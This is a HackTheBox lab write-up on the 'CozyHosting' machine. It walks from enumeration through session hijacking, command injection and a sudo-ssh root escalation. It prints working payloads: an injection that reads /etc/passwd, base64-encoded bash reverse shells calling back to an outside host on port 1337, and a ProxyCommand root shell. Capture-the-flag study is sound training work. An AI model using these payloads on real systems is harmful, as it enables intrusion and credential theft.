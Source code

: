   ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/80e00deb-fb7e-4766-9811-458e6211d32e)
  https://app.hackthebox.com/machines/559

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration: Uncovering Open Ports

To initiate the enumeration process, I started with a rapid rustscan, which promptly revealed the existence of 4 open ports. Here are the results:

```Rust
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp   open  http        syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
8000/tcp open  http-alt?   syn-ack ttl 63
9001/tcp open  tor-orport? syn-ack ttl 63
```

Additionally, I identified a domain running on port 80: "cozyhosting.htb." To facilitate access, I added this domain to my host configuration file.

Subsequently, I explored the domain and discovered that it primarily offers web hosting services. This observation piqued my curiosity, and I delved further into my enumeration process.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/faa649f8-1356-4c7d-b81e-10c9bbe7cb6f)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Fuzzing:

After adding the "cozyhosting.htb" domain to my host configuration file, I proceeded to perform both VHost and Sub-Directory enumeration. Although VHost fuzzing didn't yield any significant results, my subdirectory scan provided some interesting findings.

For VHost fuzzing, I executed the following command:

```bash
ffuf -H "Host: FUZZ.cozyhosting.htb" -u http://10.10.11.230 -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 178
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf3ef662-d17e-494e-a273-6cf9071288e5)

In this case, the VHost fuzzing didn't provide any valuable information.

Next, I conducted a subdirectory scan using the following command:

```bash
gobuster dir -u http://cozyhosting.htb/ -t 20 -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -x php,txt -e -b 404,403,400 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/223cd081-2f83-4400-b3f5-882c02898eda)

The subdirectory scan, on the other hand, returned some interesting outcomes.

Upon examining the "/actuator" path, I discovered additional directories presented in JSON format:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/86840271-9cad-47fa-afc7-679f6b7f213c)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9ae1197f-6f33-421e-ad0f-b1bd166e3792)

I decided to explore these paths one by one and stumbled upon some session keys within the "/session" directory. Notably, these keys appeared to belong to a user named "kanderson":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/86504c16-b4bc-4bb1-847f-86135f71dc00)

With the session ID in hand, I attempted to access the "/admin" panel and successfully bypassed the login screen by utilizing the Session ID value. As a result, I gained access as the user "Kanderson":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/777606f0-0209-42bb-90d7-a920ba76ee75)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6643c243-2c32-4fc3-9304-6a5613721608)

While exploring the admin panel, I came across an option to connect via SSH:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/940cdec5-c58d-4604-9f1a-f1f781a6ef81)

Upon specifying the box's IP as the host and using "kanderson" as the username, I encountered an error message stating "Host key verification failed":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6a662605-ac37-4885-aefb-4ab7e8126aa5)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Command Injection: Gaining Control

Upon submitting a blank username in the request, I received a response stating "error usage SSH":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6cb55166-a0bc-4878-be0e-2642c08a00f6)

This led me to suspect the presence of a potential command injection vulnerability within the username field. To verify this vulnerability, I experimented with various payloads. After multiple attempts, I finally received a partial response using the following payload, which allowed me to view only the first line of the passwd file:

```bash
$(cat${IFS}/etc/passwd) #${IFS} used instead of space.
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b246fd83-abf3-40e8-b07c-30ce6b622d06)

It appeared that some form of input sanitization partially blocked the request, preventing the retrieval of the entire /etc/passwd file. To bypass this filter and obtain the full content of the passwd file, I utilized the tail command with Burp Intruder.

Using the Burp Intruder, I successfully retrieved the complete content of the passwd file:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/846e724d-7d93-40fa-9f29-748ccaf4a1a8)

Analyzing the passwd file, I noticed the presence of a user named "josh" on the target host.

Continuing my exploration, I crafted a bash reverse shell in base64 format and executed it using the following one-liner with echo and bash:

```bash
$(echo${IFS}"JCgvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvMTMzNyk"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash)
```

I successfully obtained a reverse shell as the user "app," but the connection was unstable and constantly dropped: 😕

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/67e87516-4616-48d0-90c0-a29f462323d1)

After troubleshooting, I realized that my bash reverse shell was incomplete, causing the connection to drop consistently. I modified the payload, started my netcat listener again, and this time received a stable reverse shell: 🙂

```bash
$(echo${IFS}"JChiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM2LzEzMzcgMD4mMSk"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash)
```
This revised payload provided a stable reverse shell, allowing me to progress further in my exploitation.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Obtaining the User Flag

Following my initial access to the machine, I noticed the presence of a file named "cloudhosting-0.0.1.jar" in the '/app' directory. I transferred this file to my local host and proceeded to extract its contents.

After extracting the JAR file, I explored the contained folders and stumbled upon a file that held PostgreSQL-related credentials:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/d0f9a093-43d2-4dc1-afd8-30e81e13b269)

Armed with these PostgreSQL credentials, I initiated a connection to PostgreSQL (psql) with the help of some online references:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/14692628-bbb7-42c4-af4d-16ae6b830185)

Upon successfully authenticating, I discovered a database named "cozyhosting." Inside this database, I located user tables containing password hashes:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8b5e0ec6-3714-4f46-a493-e104a18af5d3)

Inspecting these hashes, I determined that they were in bcrypt format:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a0ba71cc-9c4c-4359-92b2-613c39e973c7)

To crack these hashes, I employed hashcat. However, I was only successful in cracking the admin hash:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/1e6f48c1-e537-4200-863a-d9fd898bf504)

With the cracked password in hand, I attempted to log in as "Josh" since there were no other user accounts present. Using the cracked password, I successfully accessed Josh's account via SSH:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f53cea88-6158-41f4-8046-ca50b997815e)

Furthermore, I located the user flag in Josh's home directory, marking a successful step forward in the engagement: (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3d0754f6-f753-4117-99cf-8cc8feb668c2)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Root.txt: Escalating Privileges

To acquire the root flag, I needed to escalate my privileges. To explore the potential privileges vector, I commenced with manual enumeration.

One of the initial steps involved inspecting the sudo permissions assigned to the user "Josh." It was evident that Josh had the capability to execute SSH as the root user:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/20b7ae6b-c09a-4ff0-9f66-4934f9140b77)

Next, I sought a suitable sudo command from [gtfobins](https://gtfobins.github.io/) related to SSH that could be leveraged to escalate my privileges. Fortunately, I found an appropriate one:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/671e5899-6b59-41ce-b7d0-a7131493860d)

I employed the ProxyCommand option with SSH to establish a shell and executed SSH as a sudo user to elevate my privileges to root:

```bash
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/27064d66-b8db-438c-a851-9e338d3d5abd)

After executing the above command, I successfully obtained a shell with root privileges. (pwn3d! 🙂)
